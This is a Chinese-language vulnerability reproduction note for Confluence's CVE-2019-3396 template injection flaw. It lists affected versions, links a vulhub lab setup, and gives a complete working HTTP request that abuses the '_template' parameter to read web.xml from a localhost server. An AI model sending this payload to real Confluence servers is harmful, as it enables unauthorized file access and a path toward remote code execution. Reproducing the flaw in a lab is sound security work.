 # Confluence路径穿越与命令执行漏洞 （CVE-2019-3396）
# 0x01 漏洞概述
Confluence Server与Confluence Data Center中的Widget Connector存在服务端模板注入漏洞，攻击者能利用此漏洞能够实现目录穿越与远程代码执行。

# 0x02 影响版本
- 6.6.12之前所有6.6.x版本
- 6.12.3之前所有6.12.x版本
- 6.13.13之前所有6.13.x版本
- 6.14.2之前所有6.14.x版本

# 0x03 环境搭建
https://github.com/vulhub/vulhub/blob/master/confluence/CVE-2019-3396/README.zh-cn.md

# 0x04 漏洞复现
**坑点：有些版本需要加Referer才能成功**

访问网站，根据标志确认目标系统，获取Confluence版本信息

![image](https://user-images.githubusercontent.com/84888757/172696062-00959b65-7318-4adb-b41d-1242251a4cf7.png)

## 4.1 读取文件
读取文件web.xml
按下图进行操作，抓包：

![image](https://user-images.githubusercontent.com/84888757/172696212-38a057f0-cad4-45ae-a723-5f43dd3faf24.png)

```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Referer: http://localhost:8090/pages/resumedraft.action?draftId=786457&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&
Content-Type: application/json; charset=utf-8
Content-Length: 176

{"contentId":"786458","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc6","width":"1000","height":"1000","_template":"../web.xml"}}}
```

数据包中重点关注的部分如图所示：

![image](https://user-images.githubusercontent.com/84888757/172696641-00f253f4-60ed-444f-9747-2d2236443ba6.png)
